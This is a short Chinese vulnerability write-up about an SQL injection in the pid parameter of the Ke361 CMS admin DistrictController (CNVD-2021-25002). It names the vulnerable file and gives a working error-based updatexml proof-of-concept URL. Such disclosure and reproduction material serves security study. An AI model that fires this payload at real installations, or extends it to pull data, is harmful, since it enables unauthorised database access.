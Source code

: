 # Ke361 DistrictController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 DistrictController.class.php index() 函数 pid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232910449.png)

存在漏洞的文件为 `Application/Admin/Controller/DistrictController.class.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634142045802-bdf21a65-a663-4f35-afc2-bc3e70d44309.png)

验证POC

```php
admin.php?s=/District/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634142062147-5e1703bb-91c6-44cd-8867-c3409540c2d8.png)



若有收获，就点个赞吧